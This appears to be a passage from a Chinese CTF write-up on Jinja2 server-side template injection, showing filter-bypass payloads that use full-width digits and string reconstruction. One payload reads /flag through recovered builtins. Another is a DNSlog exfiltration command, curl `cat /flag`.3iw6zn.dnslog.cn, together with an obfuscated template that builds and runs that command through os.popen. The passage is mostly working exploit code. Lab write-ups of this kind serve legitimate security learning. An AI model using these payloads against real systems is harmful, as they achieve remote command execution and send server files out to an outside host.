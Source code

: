 拓展：半角转全角代码

```python
def half2full(half):  
 full = ''  
 for ch in half:  
     if ord(ch) in range(33, 127):  
         ch = chr(ord(ch) + 0xfee0)  
     elif ord(ch) == 32:  
         ch = chr(0x3000)  
     else:  
         pass  
     full += ch  
 return full  
t=''
s="0123456789"
for i in s:
 t+='\''+half2full(i)+'\','
print(t)
```

将上题的payload稍加修改即可：

```python
{% set a=(config|string|list).pop(７４)%}
{% set glob=(a,a,dict(globals=a)|join,a,a)|join() %}
{% set bult=(a,a,dict(builtins=a)|join,a,a)|join() %}
{% set b=(lipsum|attr(glob)).get(bult) %}
{% set chr=b.chr %}
{% print b.open(chr(４７)~chr(１０２)~chr(１０８)~chr(９７)~chr(１０３)).read() %}
```



#### web371过滤print

<font color='red'>DNSlog回显带出来</font>

核心payload：

```bash
curl `cat /flag`.3iw6zn.dnslog.cn
```

```
{% set xh=(config|string|list).pop(𝟳𝟰) %}
{% set kg=(()|select|string|list).pop(𝟭𝟬) %}
{% set point=(config|string|list).pop(𝟭𝟵𝟭) %}
{% set xg=(config|string|list).pop(-𝟲𝟰) %}
{% set glob=(xh,xh,dict(globals=a)|join,xh,xh)|join() %}
{% set fxg=((lipsum|attr(glob))|string|list).pop(𝟲𝟰𝟯) %}
{% set geti=(xh,xh,dict(getitem=a)|join,xh,xh)|join() %}
{% set ox=dict(o=z,s=z)|join %}
{% set payload=(dict(curl=a)|join,kg,fxg,dict(cat=a)|join,kg,xg,dict(flag=a)|join,fxg,point,dict(kkshyu=a)|join,point,dict(dnslog=a)|join,point,dict(cn=a)|join)|join %}
{%if ((lipsum|attr(glob))|attr(geti)(ox)).popen(payload)%}{%endif%}
```
